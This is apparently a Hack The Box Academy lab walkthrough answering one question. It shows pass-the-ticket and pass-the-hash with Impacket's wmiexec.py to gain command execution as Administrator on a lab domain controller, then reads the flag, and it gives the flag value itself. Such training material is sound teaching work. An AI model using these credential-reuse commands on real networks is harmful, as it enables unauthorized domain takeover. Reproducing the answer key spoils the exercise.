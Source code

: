 ### "What's the value of the flag file at C:\\Users\\Administrator\\Desktop\\flag.txt?"

From the previous question, students have attained the TGT for the `Administrator` user; therefore, using `wmiexec.py`, they need to `pass-the-ticket` to gain remote code execution on `LAB-DC.lab.local`:

Code: shell

```shell
KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass LAB-DC.lab.local
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass LAB-DC.lab.local

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
lab\administrator
```

When reading the contents of the file `C:\Users\Administrator\Desktop\flag.txt`, students will attain the flag `HTB{ESC1_4T7ACK}`:

Code: cmd

```cmd
more "C:\Users\Administrator\Desktop\flag.txt"
```

```
C:\>more "C:\Users\Administrator\Desktop\flag.txt"

HTB{ESC1_4T7ACK}
```

Alternatively, students can `pass-the-hash` `2b576acbe6bcfda7294d6bd18041b8fe` with `wmiexec.py` and exfiltrate the contents of the file `C:\Users\Administrator\Desktop\flag.txt` directly:

Code: shell

```shell
wmiexec.py -no-pass -hashes :2b576acbe6bcfda7294d6bd18041b8fe administrator@LAB-DC.lab.local "more C:\Users\Administrator\Desktop\flag.txt"
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ wmiexec.py -no-pass -hashes :2b576acbe6bcfda7294d6bd18041b8fe administrator@LAB-DC.lab.local "more C:\Users\Administrator\Desktop\flag.txt"

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
HTB{ESC1_4T7ACK}
```
